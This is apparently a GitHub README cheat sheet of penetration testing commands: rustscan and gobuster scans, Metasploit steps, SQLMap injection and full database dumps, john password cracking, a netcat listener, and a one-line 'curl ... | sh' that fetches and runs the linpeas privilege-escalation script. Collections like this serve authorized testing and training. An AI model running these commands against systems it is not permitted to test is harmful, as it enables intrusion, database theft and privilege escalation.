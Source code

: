# HackCmds
Collection of useful penetration testing and hacking commands.

----

## Scanning
- Quick Scan (Only Ports)
````
rustscan -g --ulimit 5000 -a 192.168.31.113
````

- Intermediate Scan
````
rustscan --ulimit 5000 -a $ip -- -A
````

- Full Scan
````
sudo rustscan  --ulimit 5000 -a 192.168.31.113 -- -A -sN --top-ports 1024 --script=vuln -oX scan.xml --reason --stats-every 5s
xsltproc scan.xml -o scan.html
open scan.html
````
----

## Gobuster Directory Enumeration
- Basic
````
sudo gobuster dir -w <WORDLIST> -u <TARGET IP>
````

- Basic recursive
````
sudo gobuster dir -w <WORDLIST> -u <TARGET IP> -r
````

- With extension
````
sudo gobuster dir -u http://<TARGET IP>/ -w <WORDLIST> -x <EXTENSIONS>
````
----

## Metasploit
- Open console
````
msfconsole
````

- Search for exploit
````
search <SERVICE AND VERSION>
````

- Show options
````
show options
````

- Set the exploit
````
set <EXPLOIT NAME>
````

- Launch the exploit
````
run
````

----

## Privilege Escalation

- Linepeas (quick enumeration)
````
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
````

---

## SQLMAP

### Basic Crawl and Detection
- Crawling a site with depth 2, looking for forms, and using batch mode to avoid prompts:
````
sqlmap -u 'http://192.168.31.79/' --crawl=2 --forms --batch
````

### Fetching Database Details

- Test for SQL injection on a specific URL:
````
sqlmap -u "https://example.com/page.php?id=1"
````

- Discover databases on a vulnerable URL:
````
sqlmap -u "https://example.com/page.php?id=1" --dbs
````

### Exploring Specific Databases and Tables

- Fetch tables from a specified database:
````
sqlmap -u 'http://example.com//?page=member&id=1&Submit=Submit#' -D <DATABASE_NAME> --tables
````

- Dump the users table from the Member_Sql_Injection database:
````
sqlmap -u "https://example.com/page.php?id=1" -D <DATABASE_NAME> -T <TABLE_NAME> --dump
````

### Comprehensive Dump

- Dump all tables from the <DATABASE_NAME> database:
````
sqlmap -u 'http://example.com//?page=member&id=1&Submit=Submit#' -D <DATABASE_NAME> --dump-all
````

----

## Crack with john

- ZIP password protected
````
zip2john tocrack.zip > hash.txt
john hash.txt
````

----

## Local Server

- With netcat
````
nc -lvnp 9000
````

- Web server with Python
````
sudo python3 -m http.server 80
````

----
